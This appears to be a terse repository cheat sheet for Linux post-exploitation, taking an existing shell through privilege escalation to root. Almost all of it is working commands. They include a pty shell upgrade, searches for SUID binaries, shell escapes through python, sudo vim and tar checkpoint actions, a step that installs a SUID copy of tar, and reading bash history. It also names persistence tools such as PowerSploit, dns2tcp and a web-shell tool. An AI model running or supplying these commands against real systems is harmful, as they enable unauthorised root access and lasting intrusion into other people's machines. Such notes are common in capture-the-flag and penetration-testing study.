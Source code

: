 
INPUT: Shell
PROCESS:
- Stablish Shell
- Privilege Escalation
- Maintain Access
OUPUT: 
- root Shell


## Stablish Shell   
[python]
```sh
python3 -c 'import pty;pty.spawn("/bin/bash");'; export TERM=xterm
```

## Privilege Escalation
[SUID] find / -perm /4000 2>/dev/null
    - [python] <python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'>
[sudo] <id; sudo -l; sudo -V>
- [vim] <sudo vim -c ':!/bin/sh'>
[WebServer]:
- [python3]: python3 module <python3 -m http.server>
[Bash]  
- [History] <cat .bash_history>
[vsftpd]
- !/bin/bash
[tar]    
    <sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>
    <sudo install -m =xs $(which tar)
    ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh>

find / -type f -user root -perm -u=s 2>/dev/null

## Maintain Access
- PowerSploit
- Weewly
- dns2tcp
